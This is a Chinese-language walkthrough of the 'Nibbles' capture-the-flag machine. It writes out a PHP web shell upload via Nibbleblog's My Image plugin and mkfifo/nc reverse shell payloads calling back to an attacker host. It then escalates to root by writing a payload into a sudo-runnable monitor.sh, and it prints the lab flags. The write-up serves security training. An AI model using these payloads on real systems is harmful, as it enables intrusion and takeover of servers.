# Nibbles


## Enumeration

### Run an nmap script scan on the target. What is the Apache version running on the server? (answer format: X.X.XX)


- 先對目標做 `nmap` 掃描，確認開放的 port 與對應服務版本。
- 從掃描結果可以直接看到 Web 服務是 `Apache httpd 2.4.18`，題目要填的版本號就是這一段。

```bash
2.4.18
```

## Initial Foothold


### Gain a foothold on the target and submit the user.txt flag


- 先從網站首頁開始做最基本的資訊收集。
- 這裡利用 `curl` 或瀏覽器檢查頁面 source code，從中發現可以進一步調查的隱藏路徑。



- 接著根據前一步找到的線索，對站台做目錄枚舉，把可存取的路徑整理出來。



- 其中一個重要頁面就是 `nibbleblog`，表示目標主機使用的是一套部落格系統。



- 繼續瀏覽枚舉出的內容後，可以在 `/content` 相關資源中找到使用者名稱。
- 到這一步雖然已經知道帳號，但還沒有直接找到密碼。



- 已知使用者名稱後，就可以嘗試常見的弱密碼。
- 這裡最後成功登入的組合是 `admin / nibbles`。



- 成功登入後台後，開始找是否存在可上傳檔案或可寫入程式碼的功能。
- 在 `plugin` 相關功能裡可以找到 `My image`，這個位置允許上傳檔案。
- 先上傳一個簡單的 PHP 測試 shell，確認是否真的能執行伺服器端命令。

```bash
<?php system('id'); ?>
```



- 上傳完成後，回到可瀏覽的路徑確認檔案是否成功落地。
- 這裡可透過下列位置存取剛剛上傳的 PHP 檔案：

```bash
/content/private/plugins/my_image/image.php
```

- 確認測試 shell 可用後，再把內容替換成 reverse shell payload，讓目標主機主動回連到攻擊機。

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f"); ?>
```



- 攻擊機先開好 `nc` 監聽，再重新觸發剛剛的 `image.php`，就能收到目標的 reverse shell。



- 拿到 shell 後，先把互動性較差的 shell 升級成比較好操作的 terminal。

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```



- 接著到使用者家目錄讀取 `user.txt`，完成初始入侵階段。

```bash
79c03865431abf47b90ef24b9695e148
```

## Privilege Escalation


- 取得一般使用者 shell 後，第一步先執行 `sudo -l`，確認目前帳號是否能以 sudo 身分執行某些特定檔案。
- 這裡可以看到有一個與 `monitor.sh` 相關的腳本能以 `root` 權限執行。



- 接著到對應目錄檢查腳本內容與相關檔案，並把需要的壓縮檔解開，確認 `monitor.sh` 的實際位置。



- 確認 `monitor.sh` 可寫之後，就可以把 reverse shell payload 寫進去。
- 這樣一來，之後只要用 `sudo` 執行這支腳本，就會以 `root` 權限幫我們觸發回連。

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f' > monitor.sh
```



- 接著使用 `sudo` 執行 `monitor.sh`。
- 因為這支腳本會以 `root` 權限執行，所以腳本中的 `cat /root/root.txt` 也會以 `root` 身分讀取 flag。



- 成功收到 `root` shell 後，就可以直接讀取 `/root/root.txt`，完成這一題。

```bash
de5e5d6619862a8aa5b9b212314e0cdd
```

- 補充：如果這一題只想快速拿 flag，不一定要走 reverse shell，也可以直接把讀取 `root.txt` 的指令寫進 `monitor.sh`，再用 `sudo` 執行它來輸出內容。

```bash
echo 'cat /root/root.txt' > monitor.sh
sudo ./monitor.sh
```
